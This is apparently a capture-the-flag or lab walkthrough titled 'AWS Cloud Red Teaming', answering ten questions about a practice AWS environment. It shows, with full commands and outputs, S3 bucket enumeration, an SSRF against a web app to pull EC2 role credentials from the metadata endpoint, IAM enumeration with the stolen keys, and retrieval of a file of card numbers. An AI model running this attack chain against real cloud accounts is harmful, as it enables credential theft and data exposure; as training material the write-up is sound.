


# AWS Cloud Red Teaming

## 1. Full URL of the s3 bucket belongs to “cwl-metatech” organization?  

```sh
$ ./cloud_enum.py -k cwl-metatech --disable-azure --disable-gcp

##########################
        cloud_enum
   github.com/initstring
##########################


Keywords:    cwl-metatech
Mutations:   /home/kali/cloud_enum/enum_tools/fuzz.txt
Brute-list:  /home/kali/cloud_enum/enum_tools/fuzz.txt

[+] Mutations list imported: 306 items
[+] Mutated results: 1837 items

++++++++++++++++++++++++++
      amazon checks
++++++++++++++++++++++++++

[+] Checking for S3 buckets
<SNIP>
  OPEN S3 BUCKET: http://cwl-metatech-prod.s3.amazonaws.com/
      FILES:
      ->http://cwl-metatech-prod.s3.amazonaws.com/cwl-metatech-prod
      ->http://cwl-metatech-prod.s3.amazonaws.com/dev-server-ip.txt
      ->http://cwl-metatech-prod.s3.amazonaws.com/prod-data.txt
      ->http://cwl-metatech-prod.s3.amazonaws.com/staging-data.txt
<SNIP>
```

> Answer: http://cwl-metatech-prod.s3.amazonaws.com/

## 2. Web app running on “dev-server” ec2 instance, what is name of the parameter which is vulnerable to SSRF?

- Visit http://cwl-metatech-prod.s3.amazonaws.com/dev-server-ip.txt -> obtain the “dev-server” ec2 instance IP at 18.222.161.152
- Visit the target website and navigate to http://18.222.161.152/update.html#thankYouMessage
- Submit the request with the SSRF IP address 


> Answer: ip

## 3. Name of role attached to the dev ec2 instance?

- SSRF to this endpoint to view the IAM Role name attached to the EC2 instance: http://169.254.169.254/latest/meta-data/iam/security-credentials


> Answer: ec2-role

## 4. Name of the user who is part of the “interns” group.

- SSRF to this endpoint to get the credentials for accessing AWS using AWS CLI: http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role

- Configure access and find the users of `interns` group:
```pwsh
PS C:\Users\hanoi> aws configure --profile mcrta
AWS Access Key ID [None]: xxx
AWS Secret Access Key [None]: xxx
AWS Session Token [None]: xxx
Default region name [None]:
Default output format [None]:
PS C:\Users\hanoi> aws sts get-caller-identity --profile mcrta
{
    "UserId": "AROATQGVY3V5XLNAZLSSV:i-0c95b6744d7501b40",
    "Account": "240966491515",
    "Arn": "arn:aws:sts::240966491515:assumed-role/ec2-role/i-0c95b6744d7501b40"
}

PS C:\Users\hanoi> aws iam list-groups --profile mcrta
{
    "Groups": [
        {
            "Path": "/",
            "GroupName": "employees",
            "GroupId": "AGPATQGVY3V5S3VFVNG5W",
            "Arn": "arn:aws:iam::240966491515:group/employees",
            "CreateDate": "2025-11-13T13:10:14+00:00"
        },
        {
            "Path": "/",
            "GroupName": "interns",
            "GroupId": "AGPATQGVY3V5Q6TPZNLPK",
            "Arn": "arn:aws:iam::240966491515:group/interns",
            "CreateDate": "2025-11-13T13:10:12+00:00"
        }
    ]
}

PS C:\Users\hanoi> aws iam get-group --group-name interns --profile mcrta
{
    "Users": [
        {
            "Path": "/",
            "UserName": "int001",
            "UserId": "AIDATQGVY3V57YXHA5MLF",
            "Arn": "arn:aws:iam::240966491515:user/int001",
            "CreateDate": "2025-11-13T13:10:14+00:00"
        }
    ],
    "Group": {
        "Path": "/",
        "GroupName": "interns",
        "GroupId": "AGPATQGVY3V5Q6TPZNLPK",
        "Arn": "arn:aws:iam::240966491515:group/interns",
        "CreateDate": "2025-11-13T13:10:12+00:00"
    }
}
```

> Answer: int001

## 5. Name of the group with an “emp003” user as a member.

```pwsh
PS C:\Users\hanoi> aws iam list-groups-for-user --user-name emp003 --profile mcrta
{
    "Groups": [
        {
            "Path": "/",
            "GroupName": "employees",
            "GroupId": "AGPATQGVY3V5S3VFVNG5W",
            "Arn": "arn:aws:iam::240966491515:group/employees",
            "CreateDate": "2025-11-13T13:10:14+00:00"
        }
    ]
}
```

> Answer: employees

## 6. Account ID of the user which can assume “crossaccount-role”.

- The `Principal` field tells who can assume the role:
```pwsh
PS C:\Users\hanoi> aws iam get-role --role-name crossaccount-role --profile mcrta
{
    "Role": {
        "Path": "/",
        "RoleName": "crossaccount-role",
        "RoleId": "AROATQGVY3V54EJDRQ3KA",
        "Arn": "arn:aws:iam::240966491515:role/crossaccount-role",
        "CreateDate": "2025-11-13T13:10:12+00:00",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::058264439561:user/manager"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {}
    }
}
```

> Answer: 058264439561

## 7. Name of aws role which can be assumed by “devops-role”?

- Use this one-liner to list all roles, get the detail of each role and check if `devops-role` is found in the `Principal` field with action `sts:AssumeRole` allowed.
```pwsh
(aws iam list-roles --query "Roles[].RoleName" --output text --profile mcrta) -split "\s+" | ForEach-Object {
    if ((aws iam get-role --role-name $_ --query "Role.AssumeRolePolicyDocument" --output json --profile mcrta) -match "devop-role") {
        "MATCH: $_"
    }
}
MATCH: dev-role
```
- The aws role that can be assumed by `devops-role` should look like this:
```pwsh
PS C:\Users\hanoi\.aws> aws iam get-role --role-name "dev-role" --profile mcrta
{
    "Role": {
        "Path": "/",
        "RoleName": "dev-role",
        "RoleId": "AROATQGVY3V5YVDSJWW3O",
        "Arn": "arn:aws:iam::240966491515:role/dev-role",
        "CreateDate": "2025-11-13T13:10:22Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::240966491515:role/devops-role"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {}
    }
}
```

> Answer: dev-role

## 8. Name of Inline policy embed to “emp001” user.

```pwsh
PS C:\Users\hanoi> aws iam list-user-policies --user-name emp001 --profile mcrta
{
    "PolicyNames": [
        "s3-administrator-Policy"
    ]
}
```

> Answer: s3-administrator-Policy
## 9. ARN of policy attached to “employees” group?

```pwsh
PS C:\Users\hanoi> aws iam list-attached-group-policies --group-name employees --profile mcrta
File association not found for extension .py
{
    "AttachedPolicies": [
        {
            "PolicyName": "AmazonDevOpsGuruFullAccess",
            "PolicyArn": "arn:aws:iam::aws:policy/AmazonDevOpsGuruFullAccess"
        }
    ]
}
```

> Answer: arn:aws:iam::aws:policy/AmazonDevOpsGuruFullAccess
## 10. The credit card number of “Bob” is in the “prod-data.txt” file stored in the s3 bucket.

- Vist http://cwl-metatech-prod.s3.amazonaws.com/prod-data.txt and download the prod-data.txt:
```
User    Company     Credit Card Number   Expiry Date 
Alex        Amex	       374245455400126	    05/2026			
Bob         Cabal1	       6271701225979642	    03/2026		
Lisa        Cencosud1	   6034932528973614	    06/2026		
David       China Union    6250941006528599	    06/2026		
```

> Answer: 6271701225979642